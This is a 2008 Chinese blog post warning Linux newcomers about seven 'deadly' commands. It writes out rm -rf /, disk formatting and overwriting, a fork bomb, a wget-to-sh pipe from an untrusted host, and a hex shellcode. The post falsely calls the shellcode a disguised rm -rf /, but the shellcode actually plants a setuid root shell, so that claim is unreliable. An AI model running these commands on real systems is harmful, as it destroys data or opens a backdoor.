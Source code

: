 Title: 7 个致命的 Linux 命令
Date: 2008-11-21 10:04
Author: toy
Category: Cli
Tags: Commands
Slug: the-7-deadly-linux-commands

如果你是一个 Linux
新手，在好奇心的驱使下，可能会去尝试从各个渠道获得的命令。以下是 7
个致命的 Linux
命令，轻则使你的数据造成丢失，重则使你的系统造成瘫痪，所以，你应当竭力避免在系统中运行它们。

1.  `rm -rf /`
    此命令将递归并强制删除 / 目录下的所有文件。
2.  char esp[] __attribute__ ((section(".text"))) /* e.s.p
        release */
        = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
        "\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
        "\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
        "\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
        "\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
        "\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
        "\x6e\x2f\x73\x68\x00\x2d\x63\x00"
        "cp -p /bin/sh /tmp/.beyond; chmod 4755
        /tmp/.beyond;";

    这是 rm -rf / 的 hex（十六进制）版本，很能迷惑 Linux 用户。

3.  `mkfs.ext3 /dev/sda`
    这将对硬盘进行重新格式化，自然，硬盘上的所有数据将灰飞烟灭。
4.  `:(){ :|:& };:`
    著名的 fork
    炸弹，此命令将告诉你的系统执行海量的进程，直到你的系统僵死。
5.  `any_command > /dev/sda`
    使用该命令，原始数据将被写到块设备，其结果是造成数据丢失。
6.  `wget http://some_untrusted_source -O- | sh`
    不要从不信任的地方下载东西，这可能会获取恶意代码。
7.  `mv /home/yourhomedirectory/* /dev/null`
    此命令将移动主目录中的所有文件到一个不存在的地方，你将再也看不到那些文件。

如果你认为还有其他致命的 Linux 命令，那么请在留言中告诉我们。

[via [TECH SOURCE FROM
BOHOL](http://www.junauza.com/2008/11/7-deadly-linux-commands.html)]
